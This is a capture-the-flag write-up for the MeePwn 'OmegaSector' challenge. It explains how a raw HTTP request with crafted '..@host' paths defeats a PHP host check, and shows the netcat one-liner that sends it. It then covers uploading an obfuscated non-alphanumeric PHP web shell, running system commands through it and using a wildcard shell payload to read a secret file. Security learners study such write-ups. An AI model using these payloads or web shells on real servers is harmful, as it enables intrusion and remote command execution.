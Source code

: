 # OmegaSector &ndash; write-up by @terjanq

## Task Description
>Wtf !? I just want to go to OmegaSector but there is weird authentication here, please help me  
>http://138.68.228.12/

## Part1
The very first part of the challenge is about getting the source code of the [index.php] file. In the source of the website, we could find the URL `http://138.68.228.12/?is_debug=1` which exactly does that. 

The next step is to bypass the following countermeasures to gain the full control of the `$whoareyou` variable.

```php
$remote=$_SERVER['REQUEST_URI']; 

if(strpos(urldecode($remote),'..')) 
    mapl_die(); 

if(!parse_url($remote, PHP_URL_HOST))
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI']; 

$whoareyou=parse_url($remote, PHP_URL_HOST); 
```

If we make any request by the web browser the `$_SERVER['REQUEST_URI']` variable will start with `/?` or `/index.php?` or `/index.php/` and so on. But there is always `slash` character at the beginning. So it's a tough task to get the custom hostname in here.  
At this stage, we can conclude that it is something with `raw HTTP requests`.  

Imagine the request below:
```
GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1
Host: 138.68.228.12
Connection: close

```

In this payload I managed to cheat the `apache2`, the `parse_url` and the `strpos(urldecode($remote),'..')` at one shoot!

`Apache2` will move into a not existing directory `..@alien.somewhere.meepwn.team` then will go back one level down `../` back to the `root` folder. It is important that there are two `slashes` otherwise it won't work. I suppose it is because it just cleverly removes `..@alien.somewhere.meepwn.team/../` from the file path. 

My first try after I discovered that we could travel over directories like that was to create `..://alien.somewhere.meepwn.team/../..//index.php` so the `parse_url` evaluates to:

```
Array
(
    [scheme] => ..
    [host] => alien.somewhere.meepwn.team
    [path] => /../..//index.php
)
```

but injecting the `:` in the `directory name` caused the `apache2` to crash. Perhaps it is due to another solution which I will link to at the end of the write-up.

The `$_SERVER['REQUEST_URI']` variable has obviously `..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40` value. 

Since `strpos(urldecode($remote),'..')` is `0` it evaluetes to `False` and thus the `mapl` won't `die`.

Also `parse_url($remote, PHP_URL_HOST)` won't return the hostname and the `http://127.0.0.1` will be prepended into `$remote` so the whole variable looks like `http://127.0.1..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40`. 

Now `parse_url` returns

```
Array
(
    [scheme] => http
    [host] => alien.somewhere.meepwn.team
    [user] => 127.0.0.1..
    [path] => /..//index.php
    [query] => alien=%40!%23%24%40!%40%40
)
```

Bingo! We have a complete control over the `$whoareyou` variable.

We pass a few *ifs* 
```
if($whoareyou==="alien.somewhere.meepwn.team")
    ⋮
    if($_GET['alien']==='@!#$@!@@')
        ⋮
        $_SESSION['auth']=hash('sha256', 'alien'.$salt); 
            exit(header( "Location: alien_sector.php" )); 

```

and get redirected to another stage. 

I used this `bash script` in order to get the `PHPSESSID` with `auth` set
```bash
echo -ne 'GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1\r\nHost: 138.68.228.12\r\nConnection: close\r\n\r\n' | nc 138.68.228.12 80
```
There are also similar *ifs* for `omega_sector.php` but actualy it had no any use in this challange. 

## Part2
After having the right `PHPSESSID` in the cookies we get the following form on the `alien_sector.php`:
```xml
<form action="alien_sector.php" method="POST">
<textarea class="shadow" id="main" name="message"></textarea>
<input type='text' name='type' value='alien' hidden />
<button type="submit" id="button"><div class="alien_language">Save</div></button>
</form>
```
If we send a message with `non alphanumeric characters` we see `Saved in alien_message/fc11ce87435398abd6a28dd622639988.alien`. In opposition on the `omega_sector` where we only can use `alphanumeric characters`. We can abuse the `type` attribute and we can send the request `type=/../super_secret_shell.php`.  
The serious restriction was that messages could be at least `40 characters` long.

At first, I thought that it is something like `race condition` that two scripts write into one file at the same time resulting in mixed content but it didn't work.

Then, inspired by some ideas found on the internet I have created the `reverse shell script` using only `non-alpha chars`: 
```php
<?=$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);

// $_= '$<>/' ^ '{{{{' ----> $_ = '_GET'
// ${_GET}[_](${_GET})[__];
// final <?=$_GET[_]($_GET[__])
```

And then after visiting the URL `http://138.68.228.12/alien_message/super_secret_shell.php?_=system&__=rgrep%20%27MeePwn%27%20/var/www/` we see the flag: **MeePwnCTF{__133-221-333-123-111___}**


## Alternative solution
This is the solution posted by `P4Team`.

```
GET http://human.ludibrium.meepwn.team?human=Yes HTTP/1.0
Host: human.ludibrium.meepwn.team
```

This tricky payload takes an advantage of `default` in `virtual hosts` set to `/var/www/html` so any non-existent domain will point there. Also, it uses the alternative way of making the request using `GET FULL_URL` syntax. 

```php
<?=`/???/??? ../??????.??? > ===`
```

Even more tricky here using only 33 characters... It calls for shell via `` `...` `` syntax and then uses `shell wildcards` so `/???/???` will match `/bin/cat` and `../??????.???` matches `../secret.php`. Finally, it writes the result to `===` file. Amazing.




[index.php]:<./index.php>

